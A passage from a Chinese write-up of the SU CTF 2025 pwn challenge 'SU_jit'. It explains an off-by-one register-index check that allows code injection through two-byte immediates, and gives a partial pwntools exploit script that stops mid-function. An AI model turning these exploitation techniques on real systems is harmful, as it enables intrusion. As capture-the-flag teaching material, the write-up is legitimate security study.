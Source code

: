 ## SU_jit - SU CTF 2025
即使是春节期间也不能没思考够时间就忍不住看 writeup 啊...感觉每一步都挺容易想到的，但是就是不能做到完整的打一遍...    
简单题，但是一开始没找到洞... 是在 Unary_expr (位于 0x17cb) 的函数处，应该是检查寄存器 index < 3 而错误检查为 index < 4，从而可以将 `jmp 0x13` 写到可以执行的汇编里面，从而可以执行题目所给以外的指令，或者是导致写入 opcode 的错位解读(但是这个很难做到)，**结合一个 `mov reg, imm` 的指令中 imm 是我们可控的两个字节，可以执行两个字节的汇编指令**，并且该步可以多次重复     
### exp
```py
from pwn import*
context(arch='amd64', os='linux', log_level='debug')
p = process("./chall")

def assemble_op(op,ty,reg1,reg2,imm):
    return p8(op<<4|ty) + p8(reg2|reg1<<4) + p16(imm)

# reg 分别是 ax, bx, cx, dx
def mov_imm(reg,imm):
    return assemble_op(0,1,reg,0,imm)

def mov_reg(reg1,reg2):
    return assemble_op(0,0,reg1,reg2,0)

def add(reg1,reg2):
    return assemble_op(1,0,reg1,reg2,0)

def sub(reg1,reg2):
    return assemble_op(2,0,reg1,reg2,0)

def not_op(reg):
    return assemble_op(4,0,0,reg,0)

def neg_op(reg):
    return assemble_op(4,1,0,reg,0)

def shr_f(reg):
    return assemble_op(4,2,0,reg,0)

def test(reg):
    return assemble_op(4,4,0,reg,0)

def je(imm):
    return assemble_op(5,1,0,0,imm)
def jmp(imm):
    return assemble_op(5,0,0,0,imm)

# base reg 是 r8，初始的时候会让 r8 指向 v10 所在空间
def lw(offset_reg, dst_reg):
    return assemble_op(6,1,dst_reg,offset_reg,0)
# base reg 是 r8
def lb(offset_reg, dst_reg):
    return assemble_op(6,0,dst_reg,offset_reg,0)

# base reg 还是 r8
def sw(offset_reg, src_reg):
    return assemble_op(7,1,src_reg,offset_reg,0)
def sb(offset_reg, src_reg):
    return assemble_op(7,0,src_reg,offset_reg,0)
# 因为之前有 stc 之类的
def clc():
    return assemble_op(8,1,0,0,0)
def stc():
    return assemble_op(8,0,0,0,0)
def jmp_0x13():
```